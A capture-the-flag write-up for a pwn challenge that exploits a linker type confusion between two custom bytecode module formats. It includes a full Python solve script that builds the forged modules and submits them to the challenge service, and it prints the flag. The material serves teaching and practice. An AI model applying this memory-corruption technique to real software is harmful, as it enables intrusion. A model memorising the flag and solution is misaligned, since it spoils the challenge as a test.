





# M06 - Bhargava's Challenge: The Bow Beyond the Bow

**Category:** Pwn | **Flag:** `PINAKA{the_sharnga_strung_upon_the_pinaka_looses_the_vaishnava_astra}`

## TL;DR

Two modules, Pinaka (PNK1) and Sharnga (SRNG), get linked together and run over one shared arena. Each module is verified on its own, but the linker never checks that an export's type matches the import's type. I export an *integer* from Pinaka and import it as a *pointer* in Sharnga. That gives a forged pointer at the edge of Pinaka's object, which I use to write the ASTRA marker into the next word.

## Recon

`bow_demo.srng` is a 100-byte SRNG module. It already imports a symbol called `tension`, so I can keep that name and only change the slot type to pointer.



## The type confusion

Pinaka allocates a `0xff3f`-word object starting at arena word `0x40`, so its last data word is `0xff7f`. If that word holds `1`, it looks like a valid one-word object header, which is what Sharnga's forged pointer needs to point at.

PNK1 declares the export as an integer. SRNG puts the import in a pointer slot. The verifier is fine with both, because it checks them separately, and the linker doesn't compare them.



## Building the modules

`solve.py`:

- emits a PNK1 module that writes `1` to `0xff7f` and exports `0xff7f` as an integer
- patches the sample SRNG module so `tension` is imported as a pointer
- in Sharnga, stores `0x5348415247410001` at pointer index 0, which lands on arena word `0xff80`, then executes ASTRA

```console
python3 solve.py
```

```python
#!/usr/bin/env python3
"""Build the M06 linked-module exploit and submit it to the challenge service."""
import argparse
import base64
import json
import struct
import urllib.error
import urllib.request
from pathlib import Path

MAGIC = 0x5348415247410001
TARGET = "https://pinaka-m06-bhargava-challenge.onrender.com/bhargava/string-the-bow"
HERE = Path(__file__).resolve().parent


def ins(op, dst=0, a=0, b=0, imm=0):
    return bytes((op, dst, a, b)) + struct.pack("<i", imm)


def build_gen1():
    # Gen1 types: PTR, INT, INT, INT. It allocates through arena[0xff7f],
    # puts a nonzero length there, and exports the forged pointer as INT.
    types = bytes((2, 1, 1, 1))
    constants = (0xFF3F, 0xFF3E, 1, 0xFF7F)
    code = b"".join((
        ins(4, 0, imm=0),       # ALLOC r0, const[0]
        ins(1, 2, imm=1),       # LDC r2, const[1]
        ins(1, 3, imm=2),       # LDC r3, const[2]
        ins(6, 0, 2, 3),        # STORE through r0 at index r2, value r3
        ins(1, 1, imm=3),       # LDC r1, const[3]
        ins(0),                 # HALT
    ))
    exports = b"tension\0" + struct.pack("<H", 1)
    header = b"PNK1" + struct.pack("<6H", 1, len(types), len(constants), 6, 1, 0)
    return header + types + b"".join(struct.pack("<Q", x) for x in constants) + code + exports


def build_gen2(sample_path):
    # Keep the supplied Sharnga module's layout and symbol import; change its
    # constants, import destination, and code. Import tension into PTR r1.
    module = bytearray(open(sample_path, "rb").read())
    module[26:34] = struct.pack("<Q", 0)       # constant 0: store index
    module[34:42] = struct.pack("<Q", MAGIC)   # constant 1: ASTRA marker
    module[50:52] = struct.pack("<H", 1)        # tension import -> slot 1
    code = b"".join((
        ins(1, 0, imm=0),       # LDC r0, const[0]
        ins(1, 3, imm=1),       # LDC r3, const[1]
        ins(6, 1, 0, 3),        # STORE through imported PTR r1
        ins(8),                 # ASTRA
        ins(0),                 # HALT
        ins(0),                 # HALT
    ))
    module[52:100] = code
    return bytes(module)


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--sample", type=Path, default=HERE / "bow_demo.srng")
    parser.add_argument("--output", action="store_true", help="print module base64 instead of submitting")
    args = parser.parse_args()
    sample = args.sample if args.sample.is_absolute() else HERE / args.sample
    one, two = build_gen1(), build_gen2(sample)
    payload = {"gen1_b64": base64.b64encode(one).decode(), "gen2_b64": base64.b64encode(two).decode()}
    if args.output:
        print(json.dumps(payload))
        return
    req = urllib.request.Request(TARGET, data=json.dumps(payload).encode(),
                                 headers={"Content-Type": "application/json"}, method="POST")
    try:
        with urllib.request.urlopen(req, timeout=30) as response:
            print(response.read().decode())
    except urllib.error.HTTPError as error:
        print(f"HTTP {error.code}: {error.read().decode(errors='replace')}")


if __name__ == "__main__":
    main()
```



## Result

The validator accepted the pair with status `astra-released` and returned the flag. `solve.py` prints the full JSON response.




```text
PINAKA{the_sharnga_strung_upon_the_pinaka_looses_the_vaishnava_astra}
```
